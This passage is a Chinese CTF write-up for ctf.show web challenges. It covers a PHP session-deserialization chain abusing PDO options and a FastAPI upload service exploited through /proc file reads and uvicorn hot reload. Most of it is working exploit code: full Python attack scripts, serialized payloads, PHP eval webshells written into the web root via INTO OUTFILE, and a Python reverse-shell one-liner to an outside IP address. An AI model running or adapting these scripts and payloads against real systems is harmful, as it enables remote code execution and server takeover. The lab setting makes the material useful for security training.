

我们的目的是返回为NULL值，那就直接在username里面写`|`即可达成目的，不用看md5，那么现在写触发链，当`ATTR_DEFAULT_FETCH_MODE`指定为`262152`，就会将结果的第一列作为类名进行新建对象

> 在初始化属性值时，sql 的列名就对应者类的属性名，如果存在某个列名，但在该类中不存在这个属性名，在赋值时就会触发类的_set 方法，属性初始化结束之后会调用一次__construct

```php
<?php

class cookie_helper{
    private $secret;
}


class mysql_helper{
    private $db;
    public $option = array(
        PDO::ATTR_DEFAULT_FETCH_MODE => 262152
    );

    public function __construct(){
        $this->init();
    }


    private function init(){
        $this->db = array(
        );
    }

}

class application{
    public $cookie;
    public $mysql;
    public $dispather;
    public $loger;
    public $debug=false;

    public function __construct(){
        $this->cookie = new cookie_helper();
        $this->mysql = new mysql_helper();
        $this->dispatcher = new dispatcher();
        $this->loger = new userLogger();
        $this->loger->setLogFileName("log.txt");
    }
}

class userLogger{

    public $username;
    private $password;
    private $filename;
    public function setLogFileName($filename){
        $this->filename = $filename;
    }
}
class dispatcher{
}
$a=new application();
echo "|".urlencode(serialize($a));
```

流程就是首先注册用户，密码为马，接着进行session反序列化写入文件，然后进行RCE即可

```python
import requests
import time

url = "http://d8765c93-a5fe-4e70-88aa-bec031f84c52.challenge.ctf.show/"


def step1():
    data = {
        "username": "userLogger",
        "password": "aaa<?=eval($_POST[1]);?>.php"
    }
    response = requests.post(url=url + "index.php?action=do_register", data=data)
    time.sleep(1)
    if "script" in response.text:
        print("第一步执行完毕")
    else:
        print(response.text)
        exit()


def step2():
    data = "user|O%3A11%3A%22application%22%3A6%3A%7Bs%3A6%3A%22cookie%22%3BO%3A13%3A%22cookie_helper%22%3A1%3A%7Bs%3A21%3A%22%00cookie_helper%00secret%22%3BN%3B%7Ds%3A5%3A%22mysql%22%3BO%3A12%3A%22mysql_helper%22%3A2%3A%7Bs%3A16%3A%22%00mysql_helper%00db%22%3Ba%3A0%3A%7B%7Ds%3A6%3A%22option%22%3Ba%3A1%3A%7Bi%3A19%3Bi%3A262152%3B%7D%7Ds%3A9%3A%22dispather%22%3BN%3Bs%3A5%3A%22loger%22%3BO%3A10%3A%22userLogger%22%3A3%3A%7Bs%3A8%3A%22username%22%3BN%3Bs%3A20%3A%22%00userLogger%00password%22%3BN%3Bs%3A20%3A%22%00userLogger%00filename%22%3Bs%3A10%3A%22..%2Flog.txt%22%3B%7Ds%3A5%3A%22debug%22%3Bb%3A1%3Bs%3A10%3A%22dispatcher%22%3BO%3A10%3A%22dispatcher%22%3A0%3A%7B%7D%7D"
    response = requests.get(url=url + "index.php?action=main&token=" + data)
    time.sleep(1)
    print("第二步执行完毕")


def step3():
    data = {
        "1": "system('whoami && cat /f*');",
    }
    response = requests.post(url=url + "log.txt_-aaa%3C%3F%3Deval(%24_POST%5B1%5D)%3B%3F%3E.php", data=data)
    time.sleep(1)
    if "www-data" in response.text:
        print("第三步 getshell 成功")
        print(response.text)
    else:
        print("第三步 getshell 失败")


if __name__ == '__main__':
    step1()
    step2()
    step3()
```

### 非预期



可以看到存在`mysql_helper` 类，其中的`option`属性修改为PDO的另一个参数 `MYSQL_ATTR_INIT_COMMAND`，这个参数可以指定 mysql 连接时执行的语句，直接写个木马都可以

```php
<?php

session_start();
class mysql_helper
{
    public $option = array(
        PDO::MYSQL_ATTR_INIT_COMMAND => "select '<?=eval(\$_POST[1]);?>'  into outfile '/var/www/html/shell.php';"
    );
}
class application
{
    public $mysql;
    public $debug = true;

}

$_SESSION['user'] = new application();
$_SESSION['user']->mysql=new mysql_helper();
echo urlencode(session_encode());
```

```
/index.php?action=main&token=token=user%7CO%3A11%3A%22application%22%3A2%3A%7Bs%3A5%3A%22mysql%22%3BO%3A12%3A%22mysql_helper%22%3A1%3A%7Bs%3A6%3A%22option%22%3Ba%3A1%3A%7Bi%3A1002%3Bs%3A71%3A%22select+%27%3C%3F%3Deval%28%24_POST%5B1%5D%29%3B%3F%3E%27++into+outfile+%27%2Fvar%2Fwww%2Fhtml%2Fshell.php%27%3B%22%3B%7D%7Ds%3A5%3A%22debug%22%3Bb%3A1%3B%7D
```

## easy_api

> 访问openapi.json可以获得api接口列表

```
{
  "openapi": "3.1.0",
  "info": {
    "title": "FastAPI",
    "version": "0.1.0"
  },
  "paths": {
    "/upload/": {
      "post": {
        "summary": "Upload File",
        "operationId": "upload_file_upload__post",
        "requestBody": {
          "content": {
            "multipart/form-data": {
              "schema": {
                "$ref": "#/components/schemas/Body_upload_file_upload__post"
              }
            }
          },
          "required": true
        },
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {}
              }
            }
          },
          "422": {
            "description": "Validation Error",
            "content": {
              "application/json": {
                "schema": {
                  "$ref": "#/components/schemas/HTTPValidationError"
                }
              }
            }
          }
        }
      }
    },
    "/uploads/{fileIndex}": {
      "get": {
        "summary": "Download File",
        "operationId": "download_file_uploads__fileIndex__get",
        "parameters": [
          {
            "name": "fileIndex",
            "in": "path",
            "required": true,
            "schema": {
              "type": "string",
              "title": "Fileindex"
            }
          }
        ],
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {}
              }
            }
          },
          "422": {
            "description": "Validation Error",
            "content": {
              "application/json": {
                "schema": {
                  "$ref": "#/components/schemas/HTTPValidationError"
                }
              }
            }
          }
        }
      }
    },
    "/list": {
      "get": {
        "summary": "List File",
        "operationId": "list_file_list_get",
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {}
              }
            }
          }
        }
      }
    },
    "/": {
      "get": {
        "summary": "Index",
        "operationId": "index__get",
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {}
              }
            }
          }
        }
      }
    }
  },
  "components": {
    "schemas": {
      "Body_upload_file_upload__post": {
        "type": "object",
        "required": ["file"],
        "properties": {
          "file": {
            "type": "string",
            "format": "binary",
            "title": "File"
          }
        },
        "title": "Body_upload_file_upload__post"
      },
      "HTTPValidationError": {
        "type": "object",
        "title": "HTTPValidationError",
        "properties": {
          "detail": {
            "type": "array",
            "title": "Detail",
            "items": {
              "$ref": "#/components/schemas/ValidationError"
            }
          }
        }
      },
      "ValidationError": {
        "type": "object",
        "title": "ValidationError",
        "required": ["loc", "msg", "type"],
        "properties": {
          "loc": {
            "type": "array",
            "title": "Location",
            "items": {
              "anyOf": [
                {
                  "type": "string"
                },
                {
                  "type": "integer"
                }
              ]
            }
          },
          "msg": {
            "type": "string",
            "title": "Message"
          },
          "type": {
            "type": "string",
            "title": "Error Type"
          }
        }
      }
    }
  }
}
```

`/upload`用来上传文件，必须包含一个类型为 `multipart/form-data` 的文件，文件字段名称为 `file`

`/uploads/{fileIndex}` (GET)用来下载指定文件

`/list` (GET)列出所有上传的文件。

就是这三个路由比较有用，直接写个脚本来上传文件再下载文件看看后端是啥情况

```python
import requests
import re

url="http://0d6210c3-d789-4945-b6ca-cfb020fd32ff.challenge.ctf.show/"
name="wi"
r1=requests.post(url=url+"upload/",files={"file":(name,"wi")})
print(r1.text)
fileIndex=re.search(r'"fileName":"([^"]+)"', str(r1.text)).group(1)
# print(fileIndex)

r2=requests.get(url=url+"uploads/"+fileIndex)
print(r2.text)

# {"fileName":"75754b69-ab64-48cc-9013-1456810cb9e9"}
# 75754b69-ab64-48cc-9013-1456810cb9e9
# {"fileName":"75754b69-ab64-48cc-9013-1456810cb9e9","fileContent":"wi"}
```

那我们可以直接利用这个来进行任意文件读取

```python
import requests
import re

url="http://0d6210c3-d789-4945-b6ca-cfb020fd32ff.challenge.ctf.show/"

def upload(name):
    r1=requests.post(url=url+"upload/",files={"file":(name,"wi")})
    # print(r1.text)
    fileIndex=re.search(r'"fileName":"([^"]+)"', str(r1.text)).group(1)
    # print(fileIndex)

    r2=requests.get(url=url+"uploads/"+fileIndex)
    print(r2.text)


for pid in range(16):
    # filename=f"/proc/{pid}/environ"
    filename=f"/proc/{pid}/cmdline"
    upload(filename)
    # print(pid)

```

让AI把结果给整理一下

| 文件名                               | 文件内容描述                                                 |
| ------------------------------------ | ------------------------------------------------------------ |
| 3748af35-aff4-4b5a-38e66e4eaee8      | `/bin/sh\u0000-c\u0000/usr/start.sh\u0000`                   |
| 4a0ef4f8-7ba8-41b2-893b-8a4559918823 | `/bin/sh\u0000/usr/start.sh\u0000`                           |
| 309c77ec-ce72-45f1-acdd-4e1e45b0b495 | `/usr/local/bin/python\u0000/usr/local/bin/uvicorn\u0000ctfshow2024secret:app\u0000--host\u00000.0.0.0\u0000--reload\u0000` |
| afb2c29e-7398-4660-8caf-bd289ebcf78f | `/usr/local/bin/python\u0000-c\u0000from multiprocessing.resource_tracker import main;main(4)\u0000` |
| c810ca97-d4c4-433f-8548-9ecdac3aec97 | `/usr/local/bin/python\u0000-c\u0000from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe` |
| 9fec5735-f46f-4304-988b-64a179f190ab | `/usr/local/bin/python\u0000/usr/local/bin/uvicorn\u0000ctfshow2024secret:app\u0000--host\u00000.0.0.0\u0000--reload\u0000` |
| 365dd01e-f3a7-48ba-a6a5-183a72bedc56 | `/usr/local/bin/python\u0000-c\u0000from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe` |

得到了`/ctfshowsecretdir`和`ctfshow2024secret:app`，并且有`reload`参数，属于是可以进行热加载了，那我们写个api木马，然后热加载就可以getshell了，上官方脚本

```python
# -*- coding : utf-8 -*-
# coding: utf-8
import io
import json
import time
 
import requests
 
url = "http://9592da74-5008-4433-8764-1805b7b5d679.challenge.ctf.show/"
app = ''
 
 
# Author:ctfshow-h1xa
 
def get_api():
    response = requests.get(url=url + "openapi.json")
    if "FastAPI" in response.text:
        apijson = json.loads(response.text)
    return apijson
 
 
def get_pwd():
    pwd = ''
    for pid in range(20):
        data = f'/proc/{pid}/environ'
        file = upload(data)
        content = download(file['fileName'])
        if content['fileName'] and 'PWD' in content['fileContent']:
            pwd = content['fileContent'][
                  content['fileContent'].find("PWD=") + 4:content['fileContent'].find("GPG_KEY=")] + '/'
            break
    return pwd
 
 
def get_python_file():
    python_file = ''
    for pid in range(20):
        data = f'/proc/{pid}/cmdline'
        file = upload(data)
        content = download(file['fileName'])
        if content['fileName'] and 'uvicorn' in content['fileContent']:
            if 'reload' in content['fileContent']:
                print("[√] 检测到存在reload参数，可以进行热部署")
                python_file = content['fileContent'][
                              content['fileContent'].find("uvicorn") + 7:content['fileContent'].find(":")] + ".py"
                print(f"[√] 检测到主程序，{python_file}")
                global app
                app = content['fileContent'][
                      content['fileContent'].find("uvicorn") + 7 + len(python_file) - 3 + 1:content['fileContent'].find(
                          "--")]
                print(f"[√] 检测到uvicorn的应用名，{app}")
            else:
                print("[x] 检测到无reload参数，无法热部署，程序结束")
                exit()
            break
    return python_file
 
 
def new_file():
    global app
    return f'''
import uvicorn,os
from fastapi import *
{app} = FastAPI()
 
@{app}.get("/s")
def s(c):
  os.popen(c)
'''.replace("\x00", "")
 
 
def get_shell(name):
    name = name.replace("\x00", "")
    response = requests.post(
        url=url + "upload/",
        files={"file": (name, new_file())}
    )
    if 'fileName' in response.text:
        print(f"[√] 上传成功，等待5秒重载主程序 ")
        for i in range(5):
            time.sleep(1)
            print("[√] " + str(5 - i) + " 秒后验证重载")
    else:
        print("[x] 主程序重写失败，程序退出")
        exit()
    try:
        response = requests.get(url=url + 's/?c=whoami', timeout=3)
    except:
        print("[x] 主程序重载失败，程序退出")
        exit()
    if response.status_code == 200:
        print(f"[√] 恭喜，getshell成功 路径为{url}s/ ")
    else:
        print("[x] 主程序重载失败，程序退出")
        exit()
 
 
def upload(name):
    f = io.BytesIO(b'a' * 100)
    response = requests.post(
        url=url + "upload/",
        files={"file": (name, f)}
    )
    if 'fileName' in response.text:
        data = json.loads(response.text)
        return data
    else:
        return {'fileName': ''}
 
 
def download(file):
    response = requests.get(url=url + "uploads/" + file)
    if 'fileName' in response.text:
        data = json.loads(response.text)
        return data
    else:
        return {'fileName': ''}
 
 
def main():
    print("[√] 开始读取openapi.json")
    apijson = get_api()
    print("[√] 开放api有")
    print(*apijson['paths'])
    print("[√] 开始读取运行目录")
    pwd = get_pwd()
    if pwd:
        print(f"[√] 运行目录读取成功 路径为{pwd}")
    else:
        print("[x] 运行路径读取失败，程序退出")
        exit()
    python_file = get_python_file()
    if python_file:
        print(f"[√] uvicorn主文件读取成功 路径为{pwd}{python_file}")
    else:
        print("[x] uvicorn主文件读取失败，程序退出")
        exit()
    get_shell(pwd + python_file)
 
 
if __name__ == "__main__":
    main()
```

然后反弹shell即可

```
?c=python%20-c%20%22import%20os%2Csocket%2Csubprocess%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect(('156.238.233.9'%2C9999))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B'%2Fbin%2Fbash'%2C'-i'%5D)%3B%22
```

返回为NULL就拿到shell了，就在当前目录
